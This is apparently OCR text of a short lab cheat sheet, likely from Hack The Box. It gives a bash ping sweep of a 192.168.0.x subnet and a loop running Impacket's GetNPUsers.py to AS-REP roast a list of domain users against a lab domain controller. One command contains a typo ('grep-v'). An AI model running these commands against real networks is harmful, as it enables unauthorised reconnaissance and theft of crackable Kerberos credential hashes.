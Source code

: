 #ping all the 192.168.0.x subnet 
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

#loops over a file "users" executes.py 
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 

